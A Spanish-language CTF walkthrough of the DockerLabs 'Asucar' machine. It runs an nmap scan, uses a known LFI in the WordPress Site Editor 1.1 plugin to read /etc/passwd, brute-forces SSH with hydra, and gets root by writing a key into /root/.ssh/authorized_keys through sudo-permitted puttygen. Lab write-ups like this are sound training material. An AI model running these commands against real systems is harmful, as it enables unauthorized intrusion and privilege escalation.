



Máquina **Asucar** de [DockerLabs](https://dockerlabs.es)

Autor: [The Hackers Labs](https://thehackerslabs.com/)

Dificultad: Medio



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Jan 10 16:18:28 2025 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2025-01-10 16:18:28 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 64:44:10:ff:fe:17:28:06:93:11:e4:55:ea:93:3b:65 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK2mR4ZHERhhZkS6oA/37T+5m7Kv7i6Bzxx5P62opMNRmFStGK9uXi0hybtfyK6LhU0llQjBm2Yok45ExbRDP78=
|   256 2d:aa:fb:08:58:aa:34:8d:4f:8a:71:b9:e4:b5:99:43 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDl/MgMW7LMnrd5ESXJMi5ReeYP9/NJEFB/UkyYaWUVu
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Asucar Moreno
|_http-generator: WordPress 6.5.3
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 10 16:18:43 2025 -- 1 IP address (1 host up) scanned in 15.64 seconds
```

En el escaneo ya podemos ver varias cosas:

• `Puerto 22: OpenSSH 9.2p1 Debian`

• `Puerto 80: Apache httpd 2.4.59 & WordPress 6.5.3`

viendo esto ya tenemos cosas útiles.

#### Puerto 80

Luego de intentar varias cosas en el wordpress, intento ver algún plugin que use la página y encuentro lo siguiente:

```css
curl "http://172.17.0.2" | grep plugins --color
```

```css
<link rel='stylesheet' id='general-css' href='http://asucar.dl/wp-content/plugins/site-editor/framework/assets/css/general.min.css?ver=1.1' media='all' />
```

vemos varias cosas pero lo importante es eso, ya que nos muestra un dominio y además un plugin, el cual si revisamos en: [site-editor_path](http://172.17.0.2/wp-content/plugins/site-editor/readme.txt)

veremos que es la versión 1.1, por lo que luego de buscar encuentro que esa versión del plugin permite un LFI. [Exploit-db](https://www.exploit-db.com/exploits/44340)

# Intrusión

Para lograr el LFI, debemos entrar en el siguiente path:

```css
http://172.17.0.2/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

a la cual si entramos veremos lo siguiente:



Ahora tenemos un usuario llamado "curiosito", al cual si le hacemos fuerza bruta con `hydra` podremos obtener su contraseña:

```css
hydra -l curiosito -P /opt/rockyou.txt 172.17.0.2 ssh
```


por lo que para entrar lo haremos con `ssh curiosito@172.17.0.2`.

# Escalada De Privilegios

### Curiosito

Al revisar los permisos con `sudo -l`, me encuentro con lo siguiente:

```css
Matching Defaults entries for curiosito on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User curiosito may run the following commands on dockerlabs:
    (root) NOPASSWD: /usr/bin/puttygen
```

esto significa que podemos ejecutar `puttygen` como el usuario root, por lo que podriamos generar unas claves de ssh para poder conectarnos nuevamente pero como root sin necesidad de contraseña. Para lograr esto primero debemos generar la clave rsa:

```css
puttygen -t rsa -o id_rsa -O private-openssh
```

esto nos generará una clave privada rsa la cual se llama "id_rsa", ahora lo que haremos será guardarla en `/root/.ssh/authorized_keys`:

```css
sudo puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

eso guardará la clave pero la clave pública con el nombre "authorized_keys", lo que nos permitirá escalar a root ejecutando lo siguiente:

```css
chmod 600 id_rsa && ssh -i id_rsa root@127.0.0.1
```

### Root



Gracias por leer ;)